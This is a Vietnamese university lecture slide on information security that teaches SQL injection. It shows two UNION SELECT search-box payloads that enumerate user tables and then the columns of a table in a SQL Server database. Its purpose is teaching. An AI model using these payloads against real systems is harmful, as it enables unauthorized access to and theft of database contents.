

BÀI GIẢNG MÔN HỌC AN TOÀN VÀ BẢO MẬT HỆ THỐNG THÔNG TIN
CHƯƠNG 2 – CÁC DẠNG TẤN CÔNG VÀ CÁC PHẦN MỀM ĐỘC HẠI

2.3 Các dạng tấn công - Tấn công bằng mã độc:
SQL Injection - Đánh cắp các thông tin trong CSDL
Lấy thông tin về các bảng trong CSDL:
Nhập chuỗi tìm kiếm:
samsung'
union select name, object_id from sys.objects where type='u' --
Bảng sys.objects chứa danh sách các bảng kèm thuộc tính; 'u' là kiểu  bảng do người dùng tạo; name chứa tên đối tượng (bảng) và  object_id là mã số đối tượng.
Lấy thông tin về các trường trong một bảng:
Nhập chuỗi tìm kiếm:
samsung'
union select name, 0 from sys.columns where object_id = <mã số
bảng> --
trong đó <mã số bảng> lấy từ cột object_id ở trên.
GIẢNG VIÊN: TS. HOÀNG XUÂN DẬU
BỘ MÔN: AN TOÀN THÔNG TIN - KHOA CNTT1
Trang 50
www.ptit.edu.vn